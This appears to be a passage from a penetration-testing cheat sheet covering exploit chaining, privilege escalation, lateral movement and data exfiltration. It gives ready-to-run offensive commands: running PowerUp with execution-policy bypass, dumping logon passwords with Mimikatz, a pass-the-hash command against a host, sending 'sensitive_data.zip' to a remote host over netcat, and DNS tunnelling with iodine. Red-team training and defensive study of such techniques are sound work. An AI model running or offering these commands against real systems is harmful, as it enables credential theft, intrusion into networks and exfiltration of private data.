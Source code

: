 ### Exploit Chaining
- Using multiple vulnerabilities together
- Pivoting through compromised systems
- Leveraging trust relationships

## Post-Exploitation

### Privilege Escalation
- Windows privilege escalation
  ```bash
  # PowerUp
  powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
  
  # Windows Exploit Suggester
  windows-exploit-suggester.py --database 2021-10-10-mssb.xls --systeminfo sysinfo.txt
  ```
- Linux privilege escalation
  ```bash
  # Linux Smart Enumeration
  ./lse.sh -l 1
  
  # LinPEAS
  ./linpeas.sh
  ```

### Lateral Movement
```bash
# Using Mimikatz for credential harvesting
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Pass-the-Hash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 //192.168.1.1 cmd.exe
```

### Data Exfiltration Methods
- Using encrypted channels
  ```bash
  # Exfiltrating with netcat
  nc -lvp 8080 > exfiltrated_data.zip
  
  # Sending data
  nc 192.168.1.100 8080 < sensitive_data.zip
  ```
- DNS tunneling
  ```bash
  # iodine for DNS tunneling
  iodined -f -c -P password 10.0.0.1 tunnel.example.com
  ```
- ICMP tunneling
- Steganography
